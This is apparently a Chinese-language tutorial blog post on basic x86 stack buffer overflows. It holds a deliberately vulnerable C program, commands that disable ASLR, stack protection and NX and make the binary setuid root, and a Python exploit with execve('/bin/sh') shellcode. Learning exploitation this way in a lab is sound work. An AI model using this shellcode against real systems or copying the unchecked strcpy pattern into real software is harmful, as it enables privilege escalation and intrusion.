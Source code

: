 ```yaml
---
title: easy x86 exploit
date: 2018-11-06 21:33:01
tags:
---
```


# x86 exploit
## basic vlun
### 最简单的栈溢出
#### 溢出
简单来说，就是输入的字符串长度超过了目标字符串长度限制，并且没有长度检测，导致了溢出。
#### 溢出类型
- 栈溢出(Stack Based Buffer Overflow)
- 堆溢出(Heap Based Buffer Overflow)

#### 栈溢出
漏洞代码
```
//vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
        /* [1] */ char buf[256];
        /* [2] */ strcpy(buf,argv[1]);
        /* [3] */ printf("Input:%s\n",buf);
        return 0;
}
```
编译代码
```
echo 0 > /proc/sys/kernel/randomize_va_space
关闭aslr，地址空间布局随机化

gcc -g -fno-stack-protector -z execstack -o vuln vuln.c

-fno-stack-protector关闭堆栈保护
-z execstack 关闭NX（DEP）数据执行保护

sudo chown root vuln
sudo chgrp root vuln
sudo chmod +s vuln
```
然后通过返回地址覆盖的方法进行攻击。
exp.py
```
#!/usr/bin/env python
import struct
from subprocess import call

#Stack address where shellcode is copied.
ret_addr = 0xbffff5a0

#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

#endianess convertion
def conv(num):
 return struct.pack("<I",num)
buf = "A" * 268
buf += conv(ret_addr)
buf += "\x90" * 100
buf += scode

print "Calling vulnerable program"
call(["./vuln", buf])
```
寻找返回地址，通过core文件
ulimit -c unlimited
sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
再次触发漏洞代码，会在tmp文件夹下面产生core文件，用gdb调试这个core文件，gdb vuln 

